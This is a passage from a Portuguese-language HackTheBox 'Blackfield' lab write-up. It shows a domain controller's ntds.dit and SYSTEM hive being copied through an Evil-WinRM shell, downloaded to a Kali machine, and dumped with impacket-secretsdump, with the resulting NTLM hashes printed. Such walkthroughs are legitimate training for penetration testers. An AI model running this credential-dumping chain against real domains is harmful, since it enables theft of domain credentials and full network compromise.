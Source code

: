 ```powershell
-a----        2/23/2020   9:41 AM       10485760 edb00005.log
-a----        2/23/2020   3:13 AM       10485760 edbres00001.jrs
-a----        2/23/2020   3:13 AM       10485760 edbres00002.jrs
-a----        1/20/2024   8:07 PM       18874368 ntds.dit
-a----        1/20/2024   8:07 PM          16384 ntds.jfm
-a----        1/20/2024   7:40 PM         434176 temp.edb


*Evil-WinRM* PS C:\Temp>
```

​	Com o arquivo copiado, podemos pegar também o arquivo system da máquina.

```powershell
*Evil-WinRM* PS C:\Temp> reg save hklm\system c:\Temp\system
The operation completed successfully.
```

​	Logo em seguida, podemos transferir ambos arquivos para nossa máquina.

```powershell
*Evil-WinRM* PS C:\Temp> download C:\Temp\system /home/kali/Desktop/HTB/Blackfield/files/system
Info: Downloading C:\Temp\system to /home/kali/Desktop/HTB/Blackfield/files/system

                                                             
Info: Download successful!

*Evil-WinRM* PS C:\Temp> download C:\Temp\ntds.dit /home/kali/Desktop/HTB/Blackfield/files/ntds.dit
Info: Downloading C:\Temp\ntds.dit to /home/kali/Desktop/HTB/Blackfield/files/ntds.dit

                                                             
Info: Download successful!

*Evil-WinRM* PS C:\Temp>
```

​	Com os arquivos em nossa máquina local, podemos obter o hash do user Administrator utilizando o **impacket-secretsdump**.

```bash
┌──(kali㉿kali)-[~/…/HTB/Blackfield/files]
└─$ impacket-secretsdump -system system -ntds ntds.dit LOCAL
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Target system bootKey: 0x73d83e56de8961ca9f243e1a49638393
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 35640a3fd5111b93cc50e3b4e255ff8c
[*] Reading and decrypting hashes from ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:4d897874d27cda1e40792f828048096d:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:d3c02561bba6ee4ad6cfd024ec8fda5d:::
audit2020:1103:aad3b435b51404eeaad3b435b51404ee:600a406c2c1f2062eb9bb227bad654aa:::
support:1104:aad3b435b51404eeaad3b435b51404ee:cead107bf11ebc28b3e6e90cde6de212:::
{...}
```
